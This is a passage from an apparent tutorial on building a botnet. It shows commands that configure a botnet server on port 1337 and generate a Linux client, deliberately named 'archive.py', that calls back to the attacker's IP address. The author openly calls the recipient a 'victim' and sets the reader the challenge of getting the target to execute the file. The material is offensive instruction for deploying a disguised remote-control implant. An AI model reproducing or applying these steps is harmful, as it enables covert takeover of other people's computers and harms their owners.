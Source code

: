 In the above example, I set up the Botnet server to listen to the port 1337 of my machine. But of course, you are free to use the port you want as long you use the same port when creating the Botnet client.

If you want to display usage information and/or all the options available, at this stage you can do it by invoking the `help` command from your terminal as per the below screenshot.

**Output**

![image-1](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/475229c55e40e6c0653971a0c4501cdf-1.png "Image-1")

* * *

###### CREATE A LINUX BOTNET CLIENT

We will now talk about the most important part, we will create our first Botnet client that will target Linux machine. We will see in the next step how to create a client that works on Windows also don't worry. To do this the first thing that we will need to determine is the IP address to which your Botnet Server is currently connected. If you do not know the IP address of your machine, you can simply find it using the following command:

```bash
ifconfig
```

**Output**

![image-2](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/475229c55e40e6c0653971a0c4501cdf-2.png "Image-2")

Before moving further, we will take a few minutes to check the usage information and all the options available for our Botnet client. To do it, simply use the following command:

```bash
python client.py --help
```

**Output**

![image-3](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/475229c55e40e6c0653971a0c4501cdf-3.png "Image-3")

As you can see from the above screenshot, to create our Botnet we must use the following arguments:

```bash
usage: client.py [-h] [--name NAME] [--encrypt] [Botnet Server IP] [Botnet Server Port]
```

So let's try to generate our first Botnet. For this tutorial, I will use it as output name `archive` but of course you can name it whatever you want.

```bash
python client.py --name archive.py 192.168.1.4 1337
```

**Output**

![image-4](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/475229c55e40e6c0653971a0c4501cdf-4.png "Image-4")

As you can see from the above screenshot, a file named `archive.py` has been generated. I will not explain to you how to send it to your victim since this is not the purpose of this tutorial. But we can say that now the challenge for you is to send this file to your target and do whatever is necessary so that the latter executes it.
